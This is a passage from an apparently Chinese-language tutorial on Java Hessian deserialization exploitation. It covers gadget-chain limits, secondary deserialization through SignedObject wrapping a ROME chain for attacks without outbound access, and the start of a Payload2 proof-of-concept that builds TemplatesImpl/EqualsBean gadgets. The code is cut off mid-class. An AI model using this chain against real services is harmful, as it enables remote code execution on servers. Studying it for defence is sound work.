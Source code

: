 也就是说 Hessian 相对比原生反序列化的利用链，有几个限制：

- kick-off chain 起始方法只能为 hashCode/equals/compareTo 方法；
- 利用链中调用的成员变量不能为 transient 修饰（静态变量也不信）；(导致被`transient`修饰的`_tfactory`对象无法写入造成空指针异常)

![image-20230311135310260](images/29.png)

- 所有的调用不依赖类中 readObject 的逻辑，也不依赖 getter/setter 的逻辑。

这几个限制也导致了很多 Java 原生反序列化利用链在 Hessian 中无法使用，甚至 ysoserial 中一些明明是 hashCode/equals/compareTo 触发的链子都不能直接拿来用。

### 二次反序列化

因为是调用getter方法，其实也可以去用java.security.SignedObject的getObject方法进行二次反序列化

![image-20230309230137234](images/30.png)

这种方式就可以去不出网利用了，因为存在rome链，直接将rome链封装进去，用加载字节码的方式去进行一个不出网的利用

对于这个SignObject的构造方法

![image-20230311133745584](images/31.png)

可以直接控制content，也可以通过反射去控制，直接控制的话就把rome最后构造好的hashmap封装进去就行

```
KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
kpg.initialize(1024);
KeyPair kp = kpg.generateKeyPair();
SignedObject signedObject = new SignedObject(map, kp.getPrivate(),,Signature.getInstance("DSA"));
```

POC如下

```
package Unser.Hessians;

import Unser.Rome.GetTemplatesImpl;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.security.*;
import java.util.Base64;
import java.util.HashMap;

public class Payload2 {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = GetTemplatesImpl.getTemplatesImpl();
        EqualsBean bean = new EqualsBean(String.class, "");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("aa", templates);
        map1.put("bB", bean);
        map2.put("aa", bean);
        map2.put("bB", templates);
        HashMap map = new HashMap();
        map.put(map1, "");
        map.put(map2, "");

        setFieldValue(bean,"_beanClass", Templates.class);
```